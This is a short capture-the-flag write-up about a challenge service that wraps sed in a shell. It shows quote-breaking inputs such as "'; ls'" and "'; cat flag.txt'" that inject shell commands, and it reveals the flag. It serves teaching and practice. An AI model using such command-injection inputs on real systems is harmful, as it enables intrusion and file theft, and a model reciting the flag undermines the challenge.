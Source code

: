 ## he sed she sed
> I'm not really sure what I sed to this program, so it fixes it for me!

> nc chall2.2019.redpwn.net 6004

Let's test with some random inputs.
```
$ nc chall2.2019.redpwn.net 6004
What you thought you sed
a
What you aren't sure you sed
b
What you actually sed
c
You actually said
a
$ nc chall2.2019.redpwn.net 6004
What you thought you sed
\\
What you aren't sure you sed
\
What you actually sed
\
You actually said
sed: -e expression #1, char 7: unterminated `s' command
$ nc chall2.2019.redpwn.net 6004
What you thought you sed
'
\What you aren't sure you sed

What you actually sed
\
You actually said
sh: 1: Syntax error: Unterminated quoted string
```
Hmmm, let's try terminating the quoted string and see what happens.
```
$ nc chall2.2019.redpwn.net 6004
What you thought you sed
';a'
What you aren't sure you sed
a
What you actually sed
a
You actually said

sh: 1: a: not found
```
Great, we found a way to execute shell commands!
```
$ nc chall2.2019.redpwn.net 6004
What you thought you sed
'; ls'
What you aren't sure you sed
a
What you actually sed
a
You actually said

bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
sed.py
srv
sys
tmp
usr
var
$ nc chall2.2019.redpwn.net 6004
What you thought you sed
'; cat flag.txt'
What you aren't sure you sed
a
What you actually sed
a
You actually said

flag{th4ts_wh4t_sh3_sed}
```

